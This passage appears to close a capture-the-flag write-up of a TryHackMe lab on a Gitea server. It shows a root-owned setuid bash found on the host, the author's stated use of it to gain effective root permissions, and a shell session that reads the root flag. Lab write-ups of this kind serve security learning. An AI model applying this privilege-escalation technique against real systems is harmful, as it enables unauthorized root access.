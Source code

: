 ```bash
drwxr-xr-x    2 git      git           4096 Sep  5  2020 avatars
-rwsr-xr-x    1 root     root       1113504 Mar 23 06:34 bash
drwxr-xr-x    2 git      git           4096 Sep  5  2020 conf
-rw-r--r--    1 git      git        1212416 Mar 23 05:57 gitea.db
drwxr-xr-x    4 git      git           4096 Sep  5  2020 indexers
drwxr-xr-x    2 git      git           4096 Sep  6  2020 log
drwxr-xr-x    6 git      git           4096 Sep  5  2020 queues
drwx------    7 git      git           4096 Mar 23 05:31 sessions
bash-5.0# 
```
{: .nolineno}
{: .nolineno}

Lets use this bash to get effective SUID root permission .

![Untitled](Untitled%2019.png)

```bash
bash-4.4# cd /root
bash-4.4# ls -al
total 28
drwx------  4 root root 4096 Sep  6  2020 .
drwxr-xr-x 23 root root 4096 May 31  2021 ..
lrwxrwxrwx  1 root root    9 Sep  3  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Sep  3  2020 .cache
drwx------  3 root root 4096 Sep  3  2020 .gnupg
lrwxrwxrwx  1 root root    9 Sep  6  2020 .mysql_history -> /dev/null
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   38 Sep  5  2020 root.txt
bash-4.4# cat root.txt
THM{FLAG_FLAG_FLAG_FLAG_FLAG_FLAG_FLAG}
bash-4.4# 
```
{: .nolineno}
{: .nolineno}

I am root Now !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }